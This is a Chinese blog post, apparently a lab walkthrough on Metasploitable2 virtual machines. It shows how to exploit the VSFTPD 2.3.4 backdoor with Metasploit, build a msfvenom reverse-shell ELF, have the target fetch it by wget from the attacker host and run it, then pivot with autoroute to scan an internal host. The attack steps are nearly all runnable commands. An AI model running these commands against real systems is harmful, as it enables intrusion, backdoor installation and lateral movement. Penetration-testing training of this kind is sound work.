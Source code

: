 ```yaml
---
layout: post
category: binghe-code-hack
title: Metasploit攻击VSFTPD2.3.4后门漏洞并渗透内网
tagline: by 冰河
tag: [hack,binghe-code-hack]
excerpt: Metasploit攻击VSFTPD2.3.4后门漏洞并渗透内网
lock: need
---
```


# Metasploit攻击VSFTPD2.3.4后门漏洞并渗透内网

攻击机：Kali 192.168.109.137

靶机：Metasploitable2 192.168.109.140

内网另一主机： Metasploitable2 192.168.109.159

工具：Metasploit

## 开启MSF

```
msfconsole
```

## 扫描指定主机的服务和端口

```
nmap -sV -p 21,22,25,80,110,443,445 192.168.109.140
```

如果要存入MSF的数据库，则：

```
db_nmap -sV -p 21,22,25,80,110,443,445 192.168.109.140
```

## 列出在目标端口上运行的服务

```
services
```

## 过滤服务只显示开启的服务

```
services -u
```

## 列出数据库中所有的主机

```
hosts
```

## 漏洞攻击

```
use exploit/unix/ftp/vsftpd_234_backdoor
show options
set RHOST 192.168.109.140
set RPORT 21
show payloads
set payload cmd/unix/interact
exploit
```

注：所有操作都是在MSF终端下

**这里，我们继续将Shell控制升级为Meterpreter命令行。**

在攻击机Kali上重新开启一个终端：

## 生成反弹木马

```
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST 192.168.109.137 LPORT 4444 -f elf > backdoor.elf
```

注：elf是Linux系统下的默认扩展名

## 启动Kali上的Apache服务，并将backdoor.elf放置到服务器中

```
service apache2 start
mv backdoor.elf /var/www/html/
```

这样，就可以让目标系统从我们的计算机中下载这个木马文件了。

## 在目标机上下载木马文件

切换到第6步的终端，执行命令：

```
wget http://192.168.109.137/backdoor.elf
```

即将木马文件下载到了目标机上

## 在新开启的终端上执行如下命令

```
msfconsole
use exploit/multi/handler
set payload linux/x86/meterpreter/reverse_tcp
set LHOST 192.168.109.137
set LPORT 4444
exploit
```

## 在目标机上运行木马文件

切换到第6步的终端，执行命令：

```
chmod 7777 backdoor.elf
./backdoor.elf
```

## 查看反弹的Meterpreter终端

回到新开启的终端上查看，此时，我们看到已经反弹回Meterpreter命令行了。

接下来，就可以在Meterpreter终端进行操作了。

**下面，我们渗透内部网络。**

## 查看ARP内容

```
arp
```

由输出可以看出，内网中有另一主机IP地址为：192.168.109.159

**为了渗透进入这个内部网络，需要在成功渗透的主机上使用autoroute命令来设置跳板。**

## 设置跳板

在Meterpreter终端执行：

```
run autoroute -p
run autoroute -s 192.168.109.0 255.255.255.0
run autoroute -p
```

此时，我们的MSF就可以通过这个Meterpreter会话连接到内部网络。

## 将Meterpreter会话切换到后台

```
background
```

接下来就对这个网络中IP地址为192.168.109.159的主机使用auxiliary/scanner/portscan/tcp辅助模块进行一次端口扫描

## 对内网主机192.168.109.159进行端口扫描

```
use auxiliary/scanner/portscan/tcp
show options
setg RHOSTS 192.168.109.159
run
```

注意：设置RHOSTS的值时，这里使用的是setg命令，这样就会使RHOSTS的值设置为全局的192.168.109.159，从而无需反复输入这个命令。

由输出可知，在192.168.109.159上运行着很多服务，而且80端口是开放的。接下来使用auxiliary/scanner/http/http_version来验证目标主机在80端口上运行的服务。

## 验证192.168.109.159 80端口运行的服务

```
use auxiliary/scanner/http/http_version
show options
set RHOSTS 192.168.109.159
run
```

由输出可知，在主机80端口上运行的是Apache2.2.8服务器，其中的PHP 5.2.4版本是存在漏洞的，可以被攻击者获取对目标系统的控制。



## 写在最后

> 如果你觉得冰河写的还不错，请微信搜索并关注「 **冰河技术** 」微信公众号，跟冰河学习高并发、分布式、微服务、大数据、互联网和云原生技术，「 **冰河技术** 」微信公众号更新了大量技术专题，每一篇技术文章干货满满！不少读者已经通过阅读「 **冰河技术** 」微信公众号文章，吊打面试官，成功跳槽到大厂；也有不少读者实现了技术上的飞跃，成为公司的技术骨干！如果你也想像他们一样提升自己的能力，实现技术能力的飞跃，进大厂，升职加薪，那就关注「 **冰河技术** 」微信公众号吧，每天更新超硬核技术干货，让你对如何提升技术能力不再迷茫！


![](https://img-blog.csdnimg.cn/20200906013715889.png)